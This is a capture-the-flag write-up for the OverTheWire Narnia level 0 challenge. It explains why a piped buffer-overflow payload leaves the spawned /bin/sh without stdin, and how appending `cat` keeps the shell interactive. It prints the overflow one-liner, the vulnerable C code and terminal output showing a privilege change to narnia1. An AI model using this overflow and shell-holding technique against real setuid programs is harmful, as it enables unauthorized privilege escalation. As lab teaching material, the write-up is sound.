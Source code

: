 ##cat and stdin

Our group recently went through the Narnia Series of challenges and we noted something interesting on thefirst challenge. There are lots of [writeups](https://hackmethod.com/overthewire-narnia-0/) available on the challenge online, which you should read if you need a refresher on the challenge, but I wanted to talk specifically about the issue many of us had when trying to pipe the payload into the binary.

The main issue lies in the section of code below. After changing the control flow successfully to point to the relevant lines of code, a shell is spawned using `system("/bin/sh")`

```c
    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
```

`system("/bin/sh")` spawns an interactive shell, which receives commands from stdin and writes to stdout. The stdin and stdout is inherited from the program. 

Unfortunately stdin is closed after piping in our input, and we do not have a channel to interact with the shell. 

```bash
narnia0@narnia:/narnia$ python -c 'import sys; sys.stdout.write("A"*20+"\xef\xbe\xad\xde")' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
narnia0@narnia:/narnia$ id
uid=14000(narnia0) gid=14000(narnia0) groups=14000(narnia0)
```

So that's not quite right. When you use a pipe, the stdout of the process before the pipe will become the stdin of the process after the pipe. However terminal stdin is disconnected from the channel. So what we need is a way to pipe stdin from the terminal, to the stdout of the left side of the pipe, and end up in stdin on the right side of the pipe. 

Cat happens to be a utility which does just that.

From the man pages:
```
NAME                                                                                                 
       cat - concatenate files and print on the standard output                                     
       [...]                                                                                        
       With no FILE, or when FILE is -, read standard input.     
```

So if we run a command like the following...

```bash
narnia0@narnia:/narnia$ (python -c 'import sys; sys.stdout.write("A"*20+"\xef\xbe\xad\xde")';cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)   
```

The cat process is spawned, which takes terminal stdin pipes it to its stdout, which is in turn the stdin for the binary, allowing for interaction with the shell that is spawned.

You can check in another terminal that in fact the cat process is alive, and is the pipe between your terminal stdin, and the binaries.

```bash
narnia0@narnia:/narnia$ ps -ef | grep cat
narnia0   6086  6082  0 01:26 pts/4    00:00:00 cat
narnia0   6090  6072  0 01:26 pts/5    00:00:00 grep cat
```
